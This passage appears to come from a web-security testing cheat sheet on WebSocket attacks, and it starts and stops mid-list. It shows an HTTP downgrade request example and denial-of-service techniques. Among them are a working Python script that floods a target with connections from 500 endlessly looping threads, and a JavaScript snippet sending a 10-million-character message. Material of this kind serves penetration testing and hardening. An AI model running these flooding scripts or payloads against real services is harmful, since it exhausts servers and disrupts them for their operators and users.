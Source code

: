     - **WebSocket to HTTP downgrade**
      - Test if endpoint accepts both WebSocket and regular HTTP
      - Example:
        ```http
        POST /socket HTTP/1.1
        Host: example.com
        Content-Type: application/json
        
        {"action":"getMessage", "id":123}
        ```
      - Some endpoints may bypass WebSocket-specific protections
  
  - **WebSocket denial of service (DoS)**
    
    - **Connection flooding**
      - Create multiple WebSocket connections to exhaust server resources
      - Example script:
        ```python
        import websocket
        import threading
        
        def connect():
            while True:
                try:
                    ws = websocket.create_connection("ws://target.com/socket")
                    # Keep connection open
                    ws.recv()
                except:
                    continue
        
        # Create multiple connection threads
        for _ in range(500):
            threading.Thread(target=connect).start()
        ```
    
    - **Slow WebSocket attack**
      - Establish connections but send data at a very slow rate
      - Keep connections open to consume server resources
    
    - **Large message attacks**
      - Send extremely large WebSocket messages
      - Test message size handling and buffer management
      - Example:
        ```javascript
        let socket = new WebSocket("ws://example.com/socket");
        socket.onopen = function() {
            // Create large payload
            let payload = {"data": "A".repeat(10000000)};
            socket.send(JSON.stringify(payload));
        };
        ```
  